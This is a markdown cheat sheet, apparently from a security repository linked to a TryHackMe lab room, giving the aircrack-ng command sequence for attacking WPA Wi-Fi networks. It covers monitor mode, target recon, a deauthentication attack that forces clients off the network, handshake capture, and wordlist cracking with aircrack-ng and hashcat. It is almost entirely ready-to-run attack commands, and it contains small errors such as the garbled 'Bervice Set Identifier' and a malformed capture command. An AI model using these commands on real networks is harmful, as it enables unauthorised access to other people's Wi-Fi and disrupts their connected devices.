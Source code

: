 [Wifi Hacking 101](https://tryhackme.com/r/room/wifihacking101?ref=blog.tryhackme.com) | [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)


## setup

1. [Install Aircrack-ng](https://github.com/TurboLabIt/cybersec/blob/main/script/aircrack/install.sh)


## network interfaces

````shell
sudo airmon-ng

````

Alternative:

````shell
iw dev
iw dev wlan0 info

````


## monitor mode

the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether 
it is directed to the device or not.
It passively captures all network traffic within range for analysis without joining a network.

````shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0

````

The interface name in monitor mode is `wlan0mon`.

Alternative:

````shell
sudo ip link set dev wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set dev wlan0 up

````


## recon

MAC == BSSID (Bervice Set Identifier)

````shell
iw dev wlan0 scan

````

Alternative:

````shell
sudo airodump-ng wlan0

````


## capture + deauth attack

Capture:

````shell
sudo airodump-ng -c <network-channel-number> --bssid <access-point-mac-address> -w output-file wifi-capture.cap wlan0

````


As soon as a client is detected (`STATION`):

````shell
sudo aireplay-ng -0 1 -a <access-point-mac-address> -c <client-to-deauth-mac-address> wlan0

````

As soon as the `WPA handshake` is captured, you can stop.


## crack with aircrack

````shell
sudo aircrack-ng -a 2 -b <access-point-mac-address> -w /usr/share/wordlists/rockyou.txt *.cap

````


## crack with hashcat

````shell
aircrack-ng -J wpa-handshake.hccap wifi-capture.cap
hashcat -m 2500 wpa-handshake.hccap /usr/share/wordlists/rockyou.txt
````
